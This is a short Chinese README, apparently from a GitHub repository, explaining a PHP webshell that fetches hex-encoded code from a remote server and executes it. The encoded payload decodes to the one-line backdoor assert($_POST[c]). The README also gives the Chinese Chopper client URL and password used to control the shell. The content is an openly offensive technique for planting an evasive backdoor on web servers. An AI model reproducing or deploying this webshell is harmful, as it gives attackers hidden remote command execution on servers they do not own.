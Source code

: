 ## 使用说明

> 写了两个脚本webshell.php和getcode.php(本地开了个php server，运行getcode.php模拟远程服务器上的网页)

> 原理：首先用菜刀访问webshell.php，该webshell立即从远程服务器上获取要运行的代码并执行。

> 这里获取的代码是61737365727428245f504f53545b635d293b，也就是assert($_POST[c]);

> 菜刀中设置：http://192.168.1.102/DebugPHP/webshell.php 密码是c

author ：tank96a
form : http://tank96a.github.io/article/2015/04/27/php-horse/
